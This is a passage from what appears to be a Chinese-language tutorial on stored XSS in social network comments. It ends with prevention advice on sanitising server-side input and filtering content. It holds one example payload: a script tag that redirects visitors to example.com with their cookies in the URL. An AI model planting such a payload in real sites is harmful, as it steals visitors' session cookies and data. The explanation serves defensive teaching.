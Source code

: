 ![社交网络的持久型 XSS 攻击](./assets/1_KGAppeqpUwv8OgPKkT0Ujw.jpeg)

这允许攻击者在其评论中添加自定义脚本。

```html
<script> window.location = 'https://example.com/?user_data=' + document.cookies; </script>
```

当社交网络应用加载此评论时，它将在其 HTML 中包含了 `script` 标签。自动将当前用户重定向到恶意网站的 URL，并将所有 cookie 为参数发送。随后，恶意网站可以存储 cookie 并窃取敏感数据。

由于许多人可以访问到特定帖子的评论，因此所有访问者都可能成为受害者。

这个例子其实比较浅显，实际上也没有那么多如此容易就能找到严重漏洞的社交网络平台，但这个例子说明了持久型 XSS 的潜在规模。

### 预防措施

防止持久型 XSS 攻击的最有效方法是，默认确保对所有用户输入存储到服务器上之前进行适当的校验清理。

静态内容过滤也是一种不错的做法毕竟恶意脚本可以通过各种方式注入。

仅在客户端上几乎没有可靠的方法可以完全进行以防止持久型 XSS 攻击。
